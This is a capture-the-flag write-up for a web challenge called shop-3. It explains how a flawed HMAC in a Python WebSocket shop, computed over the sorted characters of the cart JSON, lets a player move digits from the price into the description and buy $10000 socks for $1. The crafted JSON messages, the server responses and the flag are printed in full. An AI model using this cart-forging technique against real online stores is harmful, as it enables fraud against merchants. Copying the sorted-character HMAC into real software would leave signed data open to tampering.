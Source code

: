 # shop-3
Author: null

Flag: `EPT{r3m3mb3r_t0_cl4im_y0ur_hq_ept_s0ck5!}`
## Description
```
Welcome to the new and improved EPT Merch Shop! Apparently last years version had a few bugs in it, but is should hopefully be all fixed now!

[https://shop.ept.gg/](https://shop.ept.gg/)
```

## Provided challenge files
* [shop.tar.gz2](shop.tar.gz2)

## Solution
### Preface
We got given the url https://shop.ept.gg/ and the archive `shop.tar.gz2` containing the code of the challenge. Based on it not being on-demand, it seemed likely that we wouldn't have any input that would persist between clients.

When accessing the page, we could see that we had a wallet of $100, and two items were for sale. `Meme` for $60 and `EPT Socks` for $10000.

### Solving the challenge

I started by jumping into the code and doing a quick review of its functionallity. The code was a single python script, and since I'm quite comfortable with python, I assumed it would go quite quick.


#### First assumption - Race condition
My first assumption without looking at the code was that it would be related to some kind of race condition, because it's the sort of challenge that often have such an component.

So I started out by reviewing the code, to look for ways that would indicate such a vulnerability existed.

I first looked at what functionallity existed, and I saw that all the functionallity was in the `WebSocket` portion of the application.
I gathered a list of all the functionallity or `types` as they are called in the source code; `status`,`cart`,`remove`, `checkout`, `export`,  `resume` and `flag`.

Since I wasn't quite sure where the exploit would begin, I started at the end of the chain and tried to backtrack from the `flag` functionallity.
```py
elif msg['type'] == 'flag':
    if any(item['name'] == 'EPT Socks' for item in session['inventory']):
        ws.send(json.dumps({'type': 'flag', 'flag': open('/flag.txt').read()}))
        app.logger.info(f'Someone got the flag! {addr=}, {msg=}')
    else:
        ws.send(json.dumps({'type': 'error', 'message': 'Only those wearing cool EPT socks may enter!'}))
```

We see that when doing the `flag` command, it goes through every item in our session's inventory, and checks if any of them has the name `EPT Socks` and if it does, it returns the flag to us. So now we know that we somehow, need to get the flag into our inventory.

Continuing to persue, my first hypothesis on the attack vector, I tried to look for parts of the code that could be vulnerable to a race condition flaw. Since there is no sell functionallity, we know that the only real other possibility is that there would be a race condition flaw in the `checkout` (purchase) functionallity.

So I started to review the code.
```py
elif msg['type'] == 'checkout':
    cart = session.get('cart', [])
    price = sum(item['price'] for item in cart)
    if price > session['money']:
        ws.send(json.dumps({'type': 'error', 'message': 'You cannot afford all those items!'}))
        continue
    session['money'] -= price
    session['inventory'].extend(cart)
    session['cart'] = []
    ws.send(json.dumps({'type': 'status', 'money': session['money'], 'cart': session['cart'], 'inventory': session['inventory']}))
```

We see that it first assigns the session's cart to the `cart` variable. It then continues to get the price based on the `cart` variable, checks if the session has enough money and then subtracts the cost, and adds the `cart` variable to the inventory and updates the client.

This code is potentially vulnerable to a race condition where it is possible to buy items you have funds for multiple times, but it seems unlikely. This also doesn't help us, as we don't have any sell functionallity, so getting extra of the `meme` item doesn't help us.

#### Forgetting to debug
I now felt that I had disproven that there was a race condition. So I had to look for some other flaw I could abuse. Looking back at the list of `types` there were two others that stood out as potentially interesting. That was `export` and `resume`, I had seen them earlier, but looked passed it since it used `hmac` and a secure secret to secure it. But this seemed like the most plausable vulnerable functionallity, so I took another look.

```py
elif msg['type'] == 'export':
    ws.send(json.dumps({'type': 'export', **export(session['cart'])}))
elif msg['type'] == 'resume':
    if msg['hmac'] == export(msg['cart'])['hmac']:
        session['cart'] = msg['cart']
        ws.send(json.dumps({'type': 'resume', 'cart': session['cart']}))
    else:
        ws.send(json.dumps({'type': 'error', 'message': 'Invalid hmac!'}))
```

First I took a look at `resume`, and see that the `hmac` input gets checked against the `hmac` from the result of export which seems correct, and that it then loads the message cart into the session. This seemed correct.

The `export` type just returned the results of the export function, so if there is a flaw, it was bound to be in the `export` function. So that's were I looked next.
```py
def export(cart):
    cart = json.dumps(cart, sort_keys=True)
    return {'cart': cart, 'hmac': hmac.new(app.secret_key, json.dumps(sorted(cart)).encode(), hashlib.sha256).hexdigest()}
```

With the first look at this function, the hmac function stood out to me, so instead of doing the smart thing, and actually starting the application and printing some debug statements, I spent a long time trying to test different payloads for tricking the HMAC by duplicating the keys and values of the JSON object. That was a wasted effort, but I later returned to doing some actual debugging.

#### Debugging and solving the challenge
After a lot of trial and error, I decided to start understanding better how the values of the hmac actually was created.
So as the "professional" coder I am I added all the print statements I needed to debug the application and reorganzied the code a little;
```py
def export(cart):
    cart = json.dumps(cart, sort_keys=True)
    print("Cart:", end="")
    print(cart)
    print("sorted Cart:", end="")
    print(json.dumps(sorted(cart)))

    return {'cart': cart, 'hmac': hmac.new(app.secret_key, json.dumps(sorted(cart)).encode(), hashlib.sha256).hexdigest()}
```

I then ran it locally, and tried to add an item to my cart and exporting it. I got the following output in the console, and immediately realized that the indivdual characters in the stringified cart string was sorted. So as long as I kept the same characters I could move them around as I saw fit.

```
Cart:[{"description": "Don't you dare lose your EPT Socks!", "image": "/meme.png", "name": "Meme", "price": 60, "stars": 3}]
sorted Cart:[" ", " ", " ", " ", " ", " ", " ", " ", " ", " ", " ", " ", " ", " ", " ", "!", "\"", "\"", "\"", "\"", "\"", "\"", "\"", "\"", "\"", "\"", "\"", "\"", "\"", "\"", "\"", "\"", "'", ",", ",", ",", ",", ".", "/", "0", "3", "6", ":", ":", ":", ":", ":", "D", "E", "M", "P", "S", "T", "[", "]", "a", "a", "a", "a", "c", "c", "c", "d", "d", "e", "e", "e", "e", "e", "e", "e", "e", "e", "e", "g", "g", "i", "i", "i", "i", "k", "l", "m", "m", "m", "m", "m", "n", "n", "n", "n", "o", "o", "o", "o", "o", "o", "p", "p", "p", "r", "r", "r", "r", "r", "s", "s", "s", "s", "s", "t", "t", "t", "u", "u", "y", "y", "{", "}"]

```

I initially did the conceptually easiest solution, and added one `meme` and one `socks` item to my cart, exported, switched the prices, removed meme, and bought `socks` but there is an easier solution.

First add socks to cart.
```json
{"type": "cart",
	"item": "socks"
}
```
Then export the cart.
```json
{"type": "export"}

----
{"type": "export", "cart": "[{\"description\": \"<p>The demand has been high on the next edition of the EPT merchendice. Say hello to the new EPT Socks!</p> Remember to claim your pair physically at the admin booth after solving the challenge!\", \"image\": \"/socks.png\", \"name\": \"EPT Socks\", \"price\": 10000, \"stars\": 5}]", "hmac": "b221a7a133ca9da20e597d2f1003539a06fef94dc16eb6de7fb27387ac301607"}
```

Then verify that it works to resume that cart without editing:
```json
{"type": "resume","cart":[{"description": "<p>The demand has been high on the next edition of the EPT merchendice. Say hello to the new EPT Socks!</p> Remember to claim your pair physically at the admin booth after solving the challenge!", "image": "/socks.png", "name": "EPT Socks", "price": 10000, "stars": 5}], "hmac": "b221a7a133ca9da20e597d2f1003539a06fef94dc16eb6de7fb27387ac301607"}
```

Since that succeeded, we can then try to move the values, so that we get a little better price.

```json
{"type": "resume","cart":[{"description": "<p>The demand has been high on the next edition of the EPT merchendice. Say hello to the new EPT Socks!</p> Remember to claim your pair physically at the admin booth after solving the challenge!0000", "image": "/socks.png", "name": "EPT Socks", "price": 1, "stars": 5}], "hmac": "b221a7a133ca9da20e597d2f1003539a06fef94dc16eb6de7fb27387ac301607"}

---

{"type": "resume", "cart": [{"description": "<p>The demand has been high on the next edition of the EPT merchendice. Say hello to the new EPT Socks!</p> Remember to claim your pair physically at the admin booth after solving the challenge!0000", "image": "/socks.png", "name": "EPT Socks", "price": 1, "stars": 5}]}
```

And now we can checkout.
```json
{"type": "checkout"}

---
{"type": "status", "money": 99, "cart": [], "inventory": [{"description": "<p>The demand has been high on the next edition of the EPT merchendice. Say hello to the new EPT Socks!</p> Remember to claim your pair physically at the admin booth after solving the challenge!0000", "image": "/socks.png", "name": "EPT Socks", "price": 1, "stars": 5}]}
```
And then get out flag:
```json
{"type": "flag"}
---
{"type": "flag", "flag": "EPT{r3m3mb3r_t0_cl4im_y0ur_hq_ept_s0ck5!}"}
```
